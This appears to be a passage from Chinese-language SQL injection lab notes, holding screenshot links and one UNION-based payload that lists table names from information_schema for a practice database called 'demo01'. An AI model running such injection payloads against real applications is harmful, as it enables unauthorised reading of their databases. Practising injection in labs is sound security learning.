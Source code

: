 ![image-20240317144807429](../图片/image-20240317144807429.png)



查询数据库表名

```
union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema="demo01"
```

![image-20240317145427234](../图片/image-20240317145427234.png)
